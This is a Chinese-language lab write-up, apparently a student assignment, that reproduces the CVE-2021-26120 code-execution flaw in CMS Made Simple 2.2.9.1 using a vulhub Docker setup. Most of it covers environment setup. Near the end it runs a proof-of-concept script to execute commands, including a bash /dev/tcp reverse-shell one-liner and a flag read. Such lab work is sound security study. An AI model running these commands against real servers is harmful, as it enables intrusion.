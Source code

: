 # CMS Made Simple (CMSMS) 前台代码执行漏洞

CVE-2021-26120



## 介绍

CMS Made Simple（CMSMS）是一个免费的开放源码内容管理系统，为开发人员、程序员和网站所有者提供基于网络的开发和管理功能。



## 漏洞成因

Smarty 3.1.39 之前的版本允许在 `{function name=` 子串后注入PHP代码，导致代码注入漏洞，该漏洞即为CVE-2021-26120。



CMS Made Simple 版本 <= 2.2.15，拥有设计师权限的用户可以在后台利用服务端模板注入漏洞，即为前面提到的CVE-2021-26120。



因此，如果CMSMS版本低于2.2.9.1，未授权的攻击者可以结合CVE-2019-9053和CVE-2021-26120漏洞，在服务器上执行任意代码。



## 环境部署

```
doucker-compose up -d
```

![image-20250407154544832](./assets/image-20250407154544832.png)



启动一个CMS Made Simple 2.2.9.1服务器

这里我运行的时候提示端口冲突

![image-20250407153451120](./assets/image-20250407153451120.png)



修改端口映射就可以了

![image-20250407153438622](./assets/image-20250407153438622.png)



```
docker-compose up -d
```

然后重新加载





作业要求（重载镜像写入flag）

```
FROM vulhub/cmsms:2.2.9.1
RUN echo "202235560316" > /tmp/flag
```

![image-20250407154759397](./assets/image-20250407154759397.png)



```
docker build -t  vulhub/cmsms:2.2.9.1 .
```

![image-20250407154835378](./assets/image-20250407154835378.png)

构建镜像



```
docker build -t  vulhub/cmsms:2.2.9.1 .
```

![image-20250407154919429](./assets/image-20250407154919429.png)

验证镜像



```
docker save -o cms.img vulhub/cmsms:2.2.9.1
```

![image-20250407155041582](./assets/image-20250407155041582.png)

保存镜像文件



```
docker-compose down
docker rm -f $(docker ps -a -q)
```

删除原有容器

![image-20250407155207473](./assets/image-20250407155207473.png)



![image-20250407155627643](./assets/image-20250407155627643.png)

装载镜像



![image-20250407155639964](./assets/image-20250407155639964.png)

```
version: '2'
services:
  web:
    image: vulhub/cmsms:2.2.9.1
    ports:
     - "8080:80"  # 修改为主机端口 8080，容器内仍为 80
    depends_on:
     - db
  db:
   image: mysql:5.7
   environment:
    - MYSQL_ROOT_PASSWORD=root
    - MYSQL_DATABASE=cmsms
```

修改配置文件中的image为重载后的镜像



```
docker-compose up -d
```

![image-20250407155711175](./assets/image-20250407155711175.png)

拉取镜像



```
docker run -it vulhub/cmsms:2.2.9.1 /bin/sh
cd /tmp
ls
cat flag
```

![image-20250407155828854](./assets/image-20250407155828854.png)

本地验证，构建成功







访问http://ip:8080/install.php并安装cms服务

根据向导进行，其中数据库地址为 db 数据库名为 cmsms 账号和密码均为root

![image-20250407153627586](./assets/image-20250407153627586.png)

![image-20250407160030979](./assets/image-20250407160030979.png)

设置管理员账户密码





然后这里还有问题，我重构完镜像之后，显示config文件丢失

我重新拉取了新的镜像，没有进行重构

然后我选择手动添加flag

```
docker run -it vulhub/cmsms:2.2.9.1 

/bin/sh
echo "202235560316" > /tmp/flag
cat /tmp/flag
```

![image-20250407164915134](./assets/image-20250407164915134.png)

然后安装上面的配置

重新拉取装载容器

```
docker-compose up -d
```

![image-20250407165003026](./assets/image-20250407165003026.png)



imstall之后正常访问后台

![image-20250407165028501](./assets/image-20250407165028501.png)



poc验证

```
python3 poc.py 127.0.0.1:80 / id
```

![image-20250407165055599](./assets/image-20250407165055599.png)

执行成功



尝试反弹shell

但是一直失败



然后验证主机中没有nc

```
python3 poc.py 192.168.23.134:80 / "which nc"
```

![image-20250407170547905](./assets/image-20250407170547905.png)



但是有bash

```
python3 poc.py 192.168.23.134:80 / "which bash"
```

![image-20250407170606157](./assets/image-20250407170606157.png)



但是尝试bash反弹shell一直失败

```
python3 poc.py 192.168.23.134:80 / "/bin/bash -i >& /dev/tcp/192.168.23.134/283 0>&1"
```

![image-20250407170614090](./assets/image-20250407170614090.png)



没办法，直接读取/tmp下的flag

```
python3 poc.py 192.168.23.134:80 / "cat /tmp/flag"
```

![image-20250407171614426](./assets/image-20250407171614426.png)